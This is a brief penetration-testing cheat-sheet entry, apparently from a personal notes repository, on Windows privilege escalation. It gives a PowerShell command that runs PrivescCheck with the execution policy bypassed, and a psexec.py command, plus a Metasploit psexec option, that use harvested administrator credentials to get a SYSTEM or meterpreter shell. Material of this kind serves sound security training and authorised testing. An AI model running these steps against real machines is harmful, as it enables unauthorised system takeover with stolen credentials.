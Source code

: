 - Use [PrivescCheck](https://github.com/itm4n/PrivescCheck)
- Copy it to the target machine and run it as below
	```
	powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
	```
- If you get Admin WinLogon credential from the above or some other means then you can use #tools/exploit/psexec_py to get shell as System. (You can basically authenticate through SMB, WinRM or RDP with these creds)
	```
	psexec.py Administrator@<ip>
	```
	- You can do the same from #tools/multi/msfconsole `psexec` module to get a meterpreter shell